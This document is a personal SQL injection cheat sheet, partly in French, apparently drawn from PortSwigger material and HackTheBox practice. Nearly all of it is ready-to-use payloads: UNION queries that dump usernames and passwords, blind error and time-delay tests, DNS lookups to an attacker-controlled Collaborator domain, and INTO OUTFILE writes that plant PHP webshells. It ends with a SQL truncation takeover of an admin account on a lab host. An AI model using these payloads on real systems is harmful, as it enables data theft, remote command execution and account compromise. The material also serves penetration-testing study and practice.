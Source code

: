 # SQLI SQL injection

## refs

[PortSwigger](https://portswigger.net/web-security)

## basic test, Display info, bypass logic:

```
'
value'
'--
'+OR+1=1--
'+OR+1=2--
```

## determining the number of columns

incrementer jusqu'a réponse ok

```
' ORDER BY 3--
' UNION SELECT NULL,NULL,NULL--
```

## determining the type

```
' UNION SELECT 'a',NULL,NULL,NULL--
```
### si une seule colonne de type string:

```
' UNION SELECT username || '~' || password FROM users--
```

## BLIND

condition, error, delay, OAST


## String concatenation

You can concatenate together multiple strings to make a single string.

```
Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
```

## Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

```
Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)
```

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input.

```
Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/
```

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

```
Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
```

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

```
Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

```
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

```
Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
```

Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

```
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT sleep(10)
```

## Conditional time delays


You can test a single boolean condition and trigger a time delay if the condition is true.

```
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
```

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
```
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
```

The following technique works on fully patched Oracle installations, but requires elevated privileges:

```
SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')
Microsoft	exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
PostgreSQL	copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
MySQL	The following techniques work on Windows only:
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

## upload webshell

### Mysql

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/js/cmd.php"
```

### Exemple de parametre POST:

```
product_name= D-Link'; select “<?php echo shell_exec($_GET['c']);?>” into OUTFILE ‘c:\\Inetpub\\wwwroot\\mygreatbak.php’;#
```

## SQL Truncation

on s'enrigistre avec le meme mail que l'admin suivit d'espace et de quelques chars.
comme seul les prmiers caractères sont dans la base ont peut s'authentifier avec le compte admin: 

### mail de l'admin:

```
admin@book.htb
```

### register POST lors de la cration du nouvel user:

```
name=admin%20%20%20%20%20%20%20%20aa&email=admin%40book.htb%20%20%20%20%20%20aa&password=azerty
```

## login sur l'interface d'admin:

```
http://10.10.10.176//admin/
```

## parametres post lors du login:

```
email=admin%40book.htb&password=azerty
```


